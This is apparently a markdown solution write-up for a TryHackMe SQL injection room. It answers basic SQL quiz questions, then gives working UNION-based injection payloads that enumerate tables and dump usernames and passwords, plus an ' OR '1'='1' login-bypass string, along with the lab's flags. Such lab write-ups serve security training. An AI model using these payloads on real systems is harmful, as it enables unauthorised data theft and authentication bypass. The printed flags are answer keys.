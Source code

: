 # Solution

## URL
- [SQL Injection](https://tryhackme.com/room/sqlinjectionlm)

## Steps

### Task 1
#### What does SQL stand for?
1. The answer is `Structured Query Language`.

### Task 2:
#### What is the acronym for the software that controls a database?
1. The answer is `DBMS`.

#### What is the name of the grid-like structure which holds the data?
1. The answer is `Table`.

### Task 3:
#### What SQL statement is used to retrieve data?
1. The answer is `SELECT`.

#### What SQL clause can be used to retrieve data from multiple tables?
1. The answer is `UNION`.

#### What SQL statement is used to add data?
1. The answer is `INSERT`.

### Task 4:
#### What character signifies the end of an SQL query?
1. The answer is `;`.

### Task 5:
#### What is the flag after completing level 1?
1. First figure out the number of columns, using `UNION`.
2. For that use the payload `1+UNION+SELECT+1`, `1+UNION+SELECT+1,2` these will give errors for different number of columns.
3. But when you try to fetch 3 columns `1+UNION+SELECT+1,2,3`, this won't give any errors which tells us 3 columns were being fetched before.
4. Now since the page is being populated with the first entry in the returned result, we have to make that what we are fetching, so change the first number to 0.
5. Now to figure out the name of the database: `0+UNION+SELECT+1,database(),3`. Which will give `sqli_one` as result.
6. We colud have also just straightaway fetched the tables like this: `0+UNION+SELECT+1,group_concat(table_name),3+FROM+information_schema.tables+WHERE+table_schema+=+database()`. This will give us all tables which are: `article` and `staff_users`.
7. Now we will enumerate `staff_users` table.
8. So to enumerate the columns do this: `0+UNION+SELECT+1,group_concat(column_name),3+FROM+information_schema.columns+WHERE+table_name+=+'staff_users'`. This gives us 3 columns: `id`, `username` and `password`.
9. Now we can fetch `martin`'s password like this: `0+UNION+SELECT+id,username,password+FROM+staff_users+WHERE+username+=+'martin'`.
10. The password for username `martin` is `pa$$word`.
11. We could have fetched all username and passwords like this: `0+UNION+SELECT+1,group_concat(username, ' : ', password, '<br>'),3+FROM+staff_users`.
12. Submit `martin`'s password to get the flag: `THM{SQL_INJECTION_3840}`.

### Task 6:
#### What is the flag after completing level two? (and moving to level 3)
1. In this we have to bypass a login page.
2. The current SQL statement is `select * from users where username='' and password='' LIMIT 1;`.
3. If we enter `' OR '1'='1'+--+` in username field the query will become: `select * from users where username='' OR '1'='1'+--+' and password='' LIMIT 1;`.
4. This will make the whole condition true and we will bypass the authentication for the flag: `THM{SQL_INJECTION_9581}`.